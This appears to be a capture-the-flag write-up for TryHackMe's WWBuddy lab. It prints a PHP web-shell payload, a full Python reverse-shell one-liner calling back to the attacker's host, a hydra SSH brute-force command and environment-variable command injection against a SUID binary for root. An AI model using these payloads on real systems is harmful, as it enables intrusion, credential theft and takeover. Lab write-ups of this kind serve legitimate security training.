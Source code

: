 # Write up for WWBuddy on <a href='https://tryhackme.com/room/wwbuddy'>TryHackMe</a>

### Website Flag

The webpage gives us a login page, I tried for sql injection which didn't work. I registered an account and looked around I could only see **WWBuddy** user which looks like a bot.
There is a message saying that we can send message to any user that we can find on the webpage. I couldn't find anything interesting so I ran [ffuf](https://github.com/ffuf/ffuf).
<br></br><img src='./images/Screenshot (109).png' /><br></br>

We can see some interesting paths, if we visit the **/admin** we can get a messsage that we cannot access the service. If you visit the api you won't get anything interesting too.
Now we will try for sql injection, change the username.
<br></br><img src='./images/Screenshot (110).png' /><br></br>
*Note: Initially I tried **' or 1=1;-- -** but that gave an error*

Now let's reset password, I just used **password** as the password. After resetting the password logout and login with
#### WWBuddy:{The password you set}
After logging in as WWBuddy we can see that that are two more users,
<br></br><img src='./images/Screenshot (111).png' /><br></br>

Let's login as Roberto and Henry. We can see that they are talking the default password for ssh is the user's **date of birth** and there is a new employe at the company.
If we visit **/admin** as **Henry** we can see that it gives us a log of all the users that tried to access **/admin**.

See the source code and we get the first flag

### User Flag

It's a php file so let's try a php code in username and see if we can get a result.
Set username to `<?php echo exec($_GET['cmd']) ?>` from the sql injection that we had earlier or change username of any other user who is not Henry since Henry is admin, his username won't be reflected in the php file. Now visit the **/admin** adn then logout and visit **/admin** as Henry. We can see that the php code is not visible and now let's run the **i** command
<br></br><img src='./images/Screenshot (112).png' /><br></br>
Now we have code execution let's get a shell with that,
I used a python shell `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{YOUR IP}",{PORT NO}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`, url encode this and send it in the **cmd** parameter and we get a shell as **www-data**.
I enumerted the machine manually and found */var/www/html/config.php* which had the db creds but they weren't useful since all the passwords of every user was set to same and there was nothing useful in other tables too. So I ran linpeas and found **/var/log/mysql/general.log** which has logs of the mysql commands that were ran on the machine. If you look at the log you will see that Roberto entered his username and password in the username field. Get the password and we can get an ssh connection with those creds. The flag is in the **importante.txt**

### Root Flag
The text in the file is in some other language so we need to translate that to english with google translate.
<br></br><img src='./images/Screenshot (113).png' /><br></br>

The **importante.txt** file was created on Jul 27, 2020 and she is about to turn 26 so her birth month is gonna be **August** and birth year is **1994**,*(2020 - 26, we don't do 2020 - 25 because she turned 25 in 2019)*. Now we just need to guess the day of the month. The DOB format would be **mm/dd/yyyy**
Create a wordlist with **crunch**
#### crunch 10 10 08/%%/1994 -o pass.txt
After the wordlist is created we can use **hydra** to brute force
#### hydra -f -l jenny -P pass.txt ssh://{MACHINE IP}
We will get the password with this and login as jenny with it.
I ran linpeas as jenny and found something interesting
<br></br><img src='./images/Screenshot (114).png' /><br></br>

If you run the binary as robert you just get a message saying that you are already a developer but if you execute that binary as jenny we can see that we get a shell and if you run **id** command we can see that we are part of the developer group. Let's look at what the binary is doing. I copied the binary to my machine with scp
#### scp robert@{MACHINE IP}:/bin/authenticate .
*Enter the password when it prompts for it*
<br>
Open the binary in **ghidra** and we can see something very interesting.
<br></br><img src='./images/Screenshot (115).png' /><br></br>
**USER** env is taken and and **uid** is set to 0 which is **root**. We can see that the **USER** is concatenated to a variable and that is being executed with **system** as **root**. Now we can set **USER** env to to command and we can execute that as root.
#### export USER=';cp /bin/bash /tmp/b' (*There is a character limit*)
#### /bin/authenticate
Exit the shell and check the /tmp, there would be **b** file. Now change the permission
#### export USER=';chmod +xs /tmp/b'
#### /bin/authenticate
Exit and now run
#### /tmp/a -p
This will give a root shell
